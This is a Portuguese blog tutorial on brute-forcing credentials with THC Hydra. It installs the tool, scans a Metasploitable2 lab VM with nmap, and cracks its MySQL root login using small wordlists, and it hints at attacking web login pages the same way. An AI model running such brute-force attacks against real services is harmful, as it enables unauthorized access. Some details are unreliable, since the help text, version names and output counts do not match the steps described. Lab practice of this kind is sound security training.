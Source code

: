 ```yaml
---
layout: post
title: Quebrando senhas com o THC Hydra
data: Agosto de 2017
img_background: /img/posts/2017-08-15-quebrando-senhas-com-o-thc-hydra/header.jpg
description: Um pouco de como ando utilizando o BeatifulSoup no meu dia-a-dia!
categories:
- Security
tags: [Security, Scripts]
---
```


## THC Hydra

Vou falar hoje sobre uma ferramenta que também é muito utilizada para realização de auditoriais em pentest que é o `THC – Hydra` que tem como objetivo realizar ataques de `força bruta` ou como muitos falam `brute force`, ou seja, ele faz diversas tentativas de acesso com a utilização de `wordlist`, até conseguir acesso.


![imagem hydra](img/posts/2017-08-15-quebrando-senhas-com-o-thc-hydra/xhydra.png)



## O que o THC Hydra suporta

Atualmente o `THC – Hydra`, suporta os serviços:

AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET,
HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET,
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP,
MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere,
PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP,
SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2),
Telnet, VMware-Auth, VNC and XMPP.

## Instalando o Hydra no Linux

Para quem usa Kali Linux, ele ejá vem instalado, mas para quem usar outras distribuições assim como eu, é só seguir os passos abaixo:

Primeiro será necessário baixar os arquivos e descompactá-los.

{% highlight bash %}
wget www.thc.org/releases/hydra-8.1.tar.gz
tar vzxf hydra-7.1-src.tar.gz
cd hydra-8.1
{% endhighlight %}

#### Configurações opcionais

{% highlight bash %}
--disable-xhydra # não compila o xhydra (hydra GUI)
--prefix=/opt/hydra # diz onde vai ser instalado o hydra.
{% endhighlight %}

{% highlight bash %}
./configure --disable-xhydra --prefix=/opt/hydra
{% endhighlight %}

compila, instala e cria link simbólico:

{% highlight bash %}
make && make install && ln -s /opt/hydra/hydra /usr/bin
{% endhighlight %}

Caso queira usar o pw-inspector criar um link simbólico pra ele também:

{% highlight bash %}
ln -s /opt/hydra/pw-inspector /usr/bin
{% endhighlight %}


## Metasploitable2 e reconhecimento

Para que possamos realizar o teste nesse artigo, vou utilizar uma máquina virtual que tem diversas vulnerabilidades justamente para realizar testes de invasão, [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:class='link-exteno'}, caso queria saber mais sobre essa máquina virtual, é só [acessar o seu WIKI](https://sourceforge.net/p/metasploitable/wiki/Home/){:class='link-exteno'}.

A instalação dessa máquina virtual não é difícil, você só precisa de um software de virtualização, eu uso o `Virtual Box`, que a sua licença é `free`. Existe esse [Tutorial AQUI](http://resources.infosecinstitute.com/running-metasploitable2-on-virtualbox/){:class='link-exteno'}, que explica como usar o `Metasploitable2` no virtual box, se você seguir o tutorial certinho, nada vai dar errado.

### Usando Nmap para reconhecimento

Após a instalação dessa minha máquina virtual, será necessário descobrir quais os serviços que estão abertos nela para que possamos pegar um que esteja com o status de `open`, então para isso vou utilizar o `nmap`, vou filtrar somente algumas portas.

{% highlight bash %}
nmap -sS 192.168.1.40 -p [80,22,3306]
{% endhighlight %}

Lembrando o IP `192.168.1.40` é minha máquina virtual. Resultado:

{% highlight bash %}
Nmap scan report for new-host.home (192.168.1.40)
Host is up (0.00057s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 08:00:27:40:36:A7 (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 1.58 second
{% endhighlight%}

Perfeito sabemos que os serviços de `SSH, HTTP e MYSQL`, estão com o status de open, vou tentar quebrar a senha do `mysql`.

## Entendendo como o Hydra funciona

Já que descobrimos que o serviço de `mysql` está com o status de open, vamos descobrir qual o usuário e a senha do mysql, para que possamos fazer vamos utilizar o hydra.

Antes de realizarmos qualquer teste, vamos dar uma olhada no help então execute aí `hydra -help`.

{% highlight bash %}
  -i FILE nome da wordlist pra ser tratada (default: stdin).
  -o FILE nome para o arquivo saída com o conteúdo já tratado (default: stdout).
  -m Tamanho minimo da senha.
  -M Tamanho máximo da senha.
  -c MINISETS número minimo de sets necessários.

Sets:
     -l Caracteres minúsculos (a,b,c,d, etc.)
     -u Caracteres maiúsculos (A,B,C,D, etc.)
     -n Números  (1,2,3,4, etc.)
     -p Aqui são os caracteres que não se encaixam -l/-u/-n em são eles $,!,/,(,, etc.)
     -s Caracteres especiais - são todos que não encaixam em nenhum dos sets acima.
     -t Limita o número de conexões paralelas (default: 16).
{% endhighlight %}

Essas são as opções que vamos utilizar aqui, existem outras, caso fique curioso é só ler o restante das opções, o help todo está em inglês essa é uma tradução feila pelo `MDH3LL`.

### Wordlists

Após conhecermos as opções que vamos utilizar então é só partimos para ação. Primeiro precisamos de uma `wordlist`, então vamos fazer uma, não precisa ser algo muito complexo vamos criar uma com poucas informações mesmo, é claro que se você tiver uma com mais opções e maior será bem mais eficiente, mas se não tiver então acesse o seu terminal e digite:

{% highlight bash %}
touch user.list
vim user.list
{% endhighlight %}

Aperte a tecla `i` copie e cole os users abaixo:

{% highlight bash %}
root
teste
admin
user
ROOT
RooT
User
Admin
{% endhighlight%}

Aperte `esc` e digite `:wq`

para fazer a `wordlist` de senhas:

{% highlight bash %}
touch password.list
vim password.list
{% endhighlight %}

Copie e cole as mesmas informações da lista `user`. Com as wordlist prontas agora vamos tentar quebrar a senha do mysql `Lol`. Para isso acesse o seu terminal e digite:

### Quebrando senhas com o THC Hydra.

{% highlight bash %}
hydra -L user.list -P password.list -t 1 192.168.1.40 mysql
{% endhighlight %}

Resultado:
{% highlight bash %}
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-04-21 13:31:16
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 1 task per 1 server, overall 64 tasks, 28472 login tries (l:8/p:3559), ~444 tries per task
[DATA] attacking service mysql on port 3306
[3306][mysql] host: 192.168.1.40   login: "root"  - pass "" - 35 of 3559 [child 0]
{% endhighlight %}

Como é possível ver no nosso resultado temos acesso ao `mysql` o usuário `root` e com nenhuma senha. Então vamos alterar a senha do `mysql` para uma palavra que colocamos na nossa wordlist, aqui vou usar a senha `admin`. Para alterar a senha do mysql vá ate a sua máquina virtual e digite:

{% highlight bash %}
mysqladmin -u root password 'admin'
{% endhighlight %}

Se realizarmos o teste novamente

{% highlight bash %}
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-04-21 13:55:27
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 1 task per 1 server, overall 64 tasks, 28472 login tries (l:8/p:3559), ~444 tries per task
[DATA] attacking service mysql on port 3306
[3306][mysql] host: 192.168.1.40   login: "root"  - pass "admin" - 35 of 3559 [child 0]
{% endhighlight %}

Bom à principio é apenas isso, você também pode fazer testes como esses em páginas de login, é só uma questão de ler com atenção as opções que exitem no help, com certeza você vai conseguir fazer outros testes bem mais interessantes que esse.

### Referências

[THC-HYDRA [PT-BR] ver 2.1 (Rev)](https://ghostbin.com/paste/y92ha){:class='link-exteno'}

[thc.org](https://www.thc.org/thc-hydra/){:class='link-exteno'}


-----
Viu algum erro ou gostaria de adicionar alguma sugestão a essa matéria? Comente.